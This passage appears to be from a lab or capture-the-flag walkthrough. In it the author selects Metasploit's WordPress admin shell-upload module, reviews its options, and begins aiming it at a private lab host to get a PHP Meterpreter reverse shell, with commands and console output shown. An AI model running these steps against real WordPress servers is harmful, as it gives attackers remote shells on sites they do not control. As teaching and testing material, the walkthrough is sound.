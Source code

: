 ~~~bash


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/webapp/wp_admin_shell_upload
~~~
There is just one module available, so there is nothing else to choose.
~~~bash
msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
~~~
After explicit telling to use the exploit module, I would like to know some details about it.
~~~bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > show info

       Name: WordPress Admin Shell Upload
     Module: exploit/unix/webapp/wp_admin_shell_upload
   Platform: PHP
       Arch: php
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2015-02-21

Provided by:
  rastating

Available targets:
  Id  Name
  --  ----
  0   WordPress

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  PASSWORD                    yes       The WordPress password to authenticate with
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Me
                                        tasploit
  RPORT      80               yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  TARGETURI  /                yes       The base path to the wordpress application
  USERNAME                    yes       The WordPress username to authenticate with
  VHOST                       no        HTTP server virtual host

Payload information:

Description:
  This module will generate a plugin, pack the payload into it and 
  upload it to a server running WordPress provided valid admin 
  credentials are used.

msf6 exploit(unix/webapp/wp_admin_shell_upload) > 
~~~
The options are all known to me, so I can just add the details to the exploit module and run the exploit to gain a shell.
~~~bash
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set RHOSTS 192.168.138.17
RHOSTS => 192.168.138.17
msf6 exploit(unix/webapp/wp_admin_shell_upload) > set TARGETURI /wordpress
~~~